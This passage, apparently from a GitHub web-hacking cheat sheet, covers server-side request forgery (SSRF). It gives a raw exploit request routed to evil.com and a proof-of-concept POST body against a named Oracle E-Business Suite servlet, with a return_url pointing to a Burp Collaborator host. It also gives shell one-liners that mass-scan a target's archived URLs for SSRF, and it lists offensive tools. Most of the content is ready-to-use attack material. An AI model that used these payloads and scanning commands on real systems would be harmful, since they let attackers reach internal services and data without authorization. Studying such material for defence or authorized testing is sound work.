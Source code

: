 Below is an example of the exploit request:

```html
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
![ssrf-3](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/c3486635-b964-49c8-8882-300a75e0931b)

# Oracle E-Business Suite (12.2.3-12.2.14) SSRF POC
```html
Method: POST
Path: /OA_HTML/configurator/UiServlet
Parameter: return_url
------
Body:
------
redirectFromJsp=1&getUiType=<?xml version="1.0" encoding="UTF-8"?>
        <initialize>
          <param name="init_was_saved">anything</param>
          <param name="return_url">http://BURP_COLLABORATOR</param>
          <param name="ui_def_id">0</param>
          <param name="config_effective_usage_id">0</param>
          <param name="ui_type">Applet</param>
        </initialize>
```

# SSRF at a glance
[SSRF (Server-Side Request Forgery ).pdf](https://github.com/Mehdi0x90/Web_Hacking/files/12438160/SSRF.Server-Side.Request.Forgery.pdf)


# Automate SSRF
```bash
# method 1
echo https://target.com | waybackurls | httpx -silent | gf ssrf | qsreplace <burpcollaborator url> | xarg -I{} http GET {}

# method 2
echo https://target.com | waybackurls | httpx -silent | gf ssrf | qsreplace <burpcollaborator url> | httpx
```

# Tools

* https://github.com/swisskyrepo/SSRFmap
* https://github.com/tarunkant/Gopherus
* https://github.com/qtc-de/remote-method-guesser
